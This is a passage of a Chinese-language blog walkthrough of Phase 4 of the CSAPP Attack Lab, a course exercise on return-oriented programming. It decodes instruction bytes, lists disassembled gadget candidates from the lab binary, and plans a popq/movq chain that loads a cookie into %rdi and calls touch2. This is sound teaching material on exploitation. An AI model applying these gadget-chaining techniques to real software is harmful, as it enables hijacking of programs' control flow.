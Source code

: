 - popq。
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-popq-encodings.png)

由此可知：c7 07 d4 **48 89 c7** c3。加粗的部分可以认为是 `movq %rax, %rdi`。构造 gadgets 的流程：
![](https://ddayzzz-blog.oss-cn-shenzhen.aliyuncs.com/articles/csapp-attacklab/csapp-attacklab-gadget.png)

现在开始实验：
- Phase 4：

要求|Hint
-|-
只使用 `%rax`-`%rdi` 寄存器，已经指令：`movq`，`popq`，`ret` 和 `nop`。 调用 `touch2` 函数| 只有两个 gadgets。使用的机器码介于 `start_farm` 和 `mid_farm`。When a gadget uses a popq instruction, it will pop data from the stack. As a result, your exploit string will contain a combination of gadget addresses and data.（我个人理解一次 gadget 可以把栈顶的数据弹出到 `%rax` 中。）

大概的步骤：
1. 把 `cookie` 存入 `%rdi` 中
2. `touch2` 的地址压入栈中
3. `ret` 执行

1）首先希望找到 `popq %rdi` 也就是 `5f`，然而并没有。所以可以借助 `%rax` 作为中转。使用 `popq %rax` 和 `movq %rax, %rdi`。也就是 `58 48 89 c7`。有几个候选：
```asm
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
// 48 89 c7 c3 的候选：
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```
可以看出利用 `addval_219` 中自带的 `58` ，然后跳转到含有 `48 89 c7` 以及 `c3`。同理，可以选择 `addval_273`。
